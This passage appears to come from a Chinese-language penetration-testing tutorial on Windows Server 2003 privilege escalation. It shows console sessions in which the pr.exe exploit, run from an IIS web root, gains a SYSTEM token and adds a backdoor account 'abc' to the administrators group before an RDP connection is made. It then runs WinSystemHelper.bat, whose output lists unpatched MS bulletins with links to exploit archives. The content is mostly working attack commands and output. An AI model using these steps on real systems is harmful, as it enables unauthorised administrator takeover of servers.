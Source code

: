 ```bash
C:\Inetpub\wwwroot\> pr.exe "net localgroup administrators abc /add"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1676 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:net localgroup administrators abc /add

命令成功完成。
```

尝试连接 3389，成功连接。



#### 3.4 windows分析工具利用

**3.4.1 winsystemhelper-master**

win2003

https://github.com/brianwrf/WinSystemHelper/

上传 bat+txt 文件，运行 bat 查看结果

```bash
C:\Inetpub\wwwroot\> pr.exe "WinSysHelper.bat"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1924 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:WinSysHelper.bat

************** WinSystemHelper **************

OS: Win_2003

Exploit(s) of Privilege Escalation:


vul: MS10-084, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-014, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-056, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-062, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS12-003, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS12-009, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS12-018, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS07-067, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS09-012, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS09-041, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-097, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-011, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS08-005, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-046, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS11-046-KB2503665-CVE-2011-1249.rar
vul: MS11-080, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS11-080-KB2592799-CVE-2011-2005.rar
vul: MS09-012, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS09-012-KB952004-CVE-2009-0079-Churrasco.rar
vul: MS09-012, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS09-012-KB952004-CVE-2009-0079-PR.rar
vul: MS12-020, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS12-020-KB2621440-CVE-2012-0002.rar
vul: MS10-015, exp: https://github.com/brianwrf/WinSystemHelper/raw/master/MS10-015-KB977165-CVE-2010-0232-Ms-Viru.rar
```